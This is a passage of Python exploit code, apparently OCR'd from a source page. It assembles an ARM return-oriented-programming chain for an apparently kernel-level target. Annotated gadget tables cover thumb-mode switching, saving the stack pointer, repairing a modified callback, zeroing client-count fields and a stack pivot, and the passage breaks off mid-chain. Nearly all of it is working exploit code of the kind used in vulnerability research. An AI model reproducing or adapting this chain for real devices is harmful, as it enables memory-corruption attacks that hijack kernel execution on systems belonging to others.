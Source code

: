 ```
request += p32(0xc0486988) # pc

# | 0xc0486988 | c0486988 | blx r4 | c0486988 | blx r4  | <- go to thumb mode for the next gadget
# | 0xc05af011 | c05af010 | add r0,sp,#0x20 | c05af012 | blx r6 |  <- move sp + 0x20 to r0 so we can save it for later
# | 0xc04a28e0 | c04a28e0 | str r0,[r7,#0xdc] | c04a28e8 | blx r5 | <- save the r0 value into writable location

## need to fix up the callback we've modified, so just add 4 to it (this can probs be improved need better gadgets)
# 0xc006b11c | ldmia sp!,{r4,pc}
request += p32(0xc0218bd8) # r4
request += p32(0xc0341af4) # pc

# | 0xc0341af4 | c0341af4 | cpy r0,r4 | c0341af8  | ldmia sp!,{r4,r11,pc} | 
request += p32(0xc05460e0) # r4
request += p32(0xc09afebc + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4 | blx r4 | 

## need to fix up the client count thing (0xc09b10ec to 0, 0xC09B1184 to 0, 0xC09B121C to 0, C09B12B4 to 0)
# | 0xc05460e0 | c05460e0 | mov r0,#0x0 | c05460e4 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B1184 - 0xc) # r5
request += p32(0xc09b10ec + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 |

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc0237e44) # r4
request += p32(0xC09B12B4 - 0xc) # r5
request += p32(0xC09B121C + 0x510) # r11
request += p32(0xc04092b0) # pc

# | 0xc04092b0 | c04092b0 | str r0,[r11,#-0x510] | c04092b4  | blx r4 | 

## Now we need to stack pivot

# | 0xc0237e44 | c0237e44 | str r0,[r5,#0xc] | c0237e48 | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xc09ae8d4) # r4 <- address of our stored stack pointer
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
request += p32(0xc01fefbc) # pc

# | 0xc01fefbc | c01fefbc | ldr r0,[r4,#0x0] | c01fefc0 | ldmia sp!,{r4,r5,r6,r7,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xc08e6de0 - 0x30) # r5 <- pointer to amount to sub from loaded stack pointer
request += p32(0xc046a980) # r6 <- change for add (0xc046a980) or sub (0xc01133bc)
request += p32(0xdeadbeef) # r7
request += p32(0xdeadbeef) # r11
request += p32(0xc0570e14) # pc

# need to increment r0

# | 0xc0570e14 | c0570e14 | ldr r4,[r5,#0x30] | c0570e18 | blx r6 | 

# | 0xc046a980 | c046a980 | add r0,r0,r4 | c046a984  | ldmia sp!,{r4,r5,r11,pc} | 
request += p32(0xdeadbeef) # r4
request += p32(0xdeadbeef) # r5
request += p32(0xdeadbeef) # r11
```